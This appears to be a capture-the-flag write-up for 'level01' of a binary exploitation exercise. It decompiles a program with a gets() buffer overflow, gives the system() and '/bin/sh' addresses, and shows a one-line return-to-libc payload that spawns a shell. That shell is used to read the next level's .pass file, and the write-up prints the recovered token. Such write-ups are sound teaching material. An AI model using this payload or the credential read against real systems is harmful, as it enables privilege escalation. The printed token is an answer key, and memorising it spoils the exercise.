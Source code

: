 # level01

1. Decompilation with Ghidra

    - Decompile the `level1` binary with Ghidra
    - The binary contains a simple function that calls `gets()` to read user input into a 76-byte buffer
    - No bounds checking, making it vulnerable to **buffer overflow**

2. Analysis of the vulnerability

    The code is:

    ```c
    void main(void) {
      char local_50 [76];  // 76 bytes buffer
      gets(local_50);      // Reads without size limit!
      return;
    }
    ```

    The vulnerability allows us to overflow the buffer and overwrite the **return address** on the stack.

3. Finding the required addresses with Ghidra

    - **`system()` address in PLT** : `0x08048360`
    - **`/bin/sh` string address** : `0x08048584`

    Stack layout when overflowing:

    ```
    Buffer (76 bytes) | Saved EBP (4 bytes) | Return Address (4 bytes)
      [AAAA...AAAA]   +       [????]        +    [system address]
    ```

    Payload structure:
    - 76 bytes of padding (A's)
    - 4 bytes: address of `system()` (little-endian: `\x60\x83\x04\x08`)
    - 4 bytes: junk/return address for `system()`
    - 4 bytes: argument for `system()` = address of `/bin/sh` (little-endian: `\x84\x85\x04\x08`)

4. Exploitation

    ```bash
    (printf 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x60\x83\x04\x08XXXX\x84\x85\x04\x08'; cat) | ./level1
    ```

    This spawns a shell with level2 privileges.

    ```bash
    cat /home/user/level2/.pass
    ```

5. Token discovered

    The token is : `53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77`
